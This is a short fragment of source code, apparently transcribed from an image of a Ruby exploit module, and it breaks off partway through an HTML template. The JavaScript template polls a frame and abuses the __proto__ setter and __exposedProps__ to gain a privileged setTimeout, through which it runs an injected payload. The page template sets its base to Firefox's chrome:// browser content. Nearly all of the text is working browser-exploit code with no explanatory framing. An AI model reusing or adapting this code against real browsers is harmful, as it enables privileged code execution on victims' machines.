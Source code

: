 function _() {


return '#{vars[:frame_name]}';


}


var #{vars[:interval_var]} = setInterval(function(){


try{ #{vars[:frame_ref]}['#{vars[:access_string]}'] }


catch(e){


clearInterval(#{vars[:interval_var]});


var p = Object.getPrototypeOf(#{vars[:frame_ref]});


var o = {__exposedProps__: {setTimeout: "rw", call: "rw"}};


Object.prototype.__lookupSetter__("__proto__").call(p, o);


p.setTimeout.call(#{vars[:frame_ref]}, #{vars[:payload_var]}, 1);


}


}, 100);


document.querySelector('object').data = "#{vars[:loader_path]}";


document.querySelector('use').setAttributeNS(


"http://www.w3.org/1999/xlink", "href", location.href + "##{vars[:symbol_id]}"


);


|



%Q|


<!doctype html>


<html>


<head>


<base href="chrome://browser/content/">


</head>
